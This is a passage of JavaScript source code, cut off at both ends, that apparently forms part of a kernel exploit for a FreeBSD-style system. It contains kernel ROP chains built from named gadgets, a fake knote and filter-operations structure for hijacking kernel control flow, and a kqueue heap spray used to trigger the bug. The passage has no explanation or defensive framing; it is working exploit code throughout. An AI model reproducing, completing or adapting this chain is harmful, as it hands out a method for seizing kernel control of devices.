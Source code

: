             kchain2.rax_kernel(KERNEL_kqueue_close_epi);
            kchain2.push(gadgets["mov rdx, rax"]);
            kchain2.push(gadgets["pop rsi"]);
            kchain2.push(SAVED_KERNEL_STACK_PTR);
            kchain2.push(gadgets["mov rax, [rsi]"]);
            kchain2.push(gadgets["pop rcx"]);
            kchain2.push(0x10);
            kchain2.push(gadgets["add rax, rcx"]);
            kchain2.push(gadgets["mov [rax], rdx"]);
            kchain2.push(gadgets["pop rdi"]);
            var idx6 = kchain2.pushSymbolic();
            kchain2.push(gadgets["mov [rdi], rax"]);
            kchain2.push(gadgets["sti"]);
            kchain2.push(gadgets["pop rsp"]);
            var idx6_dest = kchain2.get_rsp();
            kchain2.pushSymbolic(); // overwritten with old stack pointer
            kchain2.finalizeSymbolic(idx6, idx6_dest);
        }    
        function object_setup() {
            //Map fake object
            var fake_knote = chain.syscall(477, 0x4000, 0x4000 * 0x3, 0x3, 0x1010, 0xFFFFFFFF, 0x0);
            var fake_filtops = fake_knote.add32(0x4000);
            var fake_obj = fake_knote.add32(0x8000);
            if (fake_knote.low != 0x4000) {
                alert("enomem: " + fake_knote);
                while (1);
            }
            //setup fake object
            //KNOTE
            {
                p.write8(fake_knote, fake_obj);
                p.write8(fake_knote.add32(0x68), fake_filtops)
            }
            //FILTOPS
            {
                p.write8(fake_filtops.sub32(0x79), gadgets["cli ; pop rax"]); //cli ; pop rax ; ret
                p.write8(fake_filtops.add32(0x0), gadgets["xchg rdi, rsp ; call [rsi - 0x79]"]); //xchg rdi, rsp ; call qword ptr [rsi - 0x79]
                p.write8(fake_filtops.add32(0x8), kchain.stack);
                p.write8(fake_filtops.add32(0x10), gadgets["mov rcx, [rdi] ; mov rsi, rax ; call [rcx + 0x30]"]); //mov rcx, qword ptr [rdi] ; mov rsi, rax ; call qword ptr [rcx + 0x30]
            }
            //OBJ
            {
                p.write8(fake_obj.add32(0x30), gadgets["mov rdi, [rax + 8] ; call [rax]"]); //mov rdi, qword ptr [rax + 8] ; call qword ptr [rax]
            }
            //Ensure the fake knote remains available
            chain.syscall(203, fake_knote, 0xC000);
        }    
        var trigger_spray = function () {    
            var NUM_KQUEUES = 0x1B0;
            var kqueue_ptr = p.malloc(NUM_KQUEUES * 0x4);
            //Make kqueues
            {
                for (var i = 0; i < NUM_KQUEUES; i++) {
                    chain.fcall(window.syscalls[362]);
                    chain.write_result4(kqueue_ptr.add32(0x4 * i));
                }
            }
            chain.run();
            var kqueues = p.array_from_address(kqueue_ptr, NUM_KQUEUES);    
            var that_one_socket = chain.syscall(97, 2, 1, 0);
            if (that_one_socket.low < 0x100 || that_one_socket.low >= 0x200) {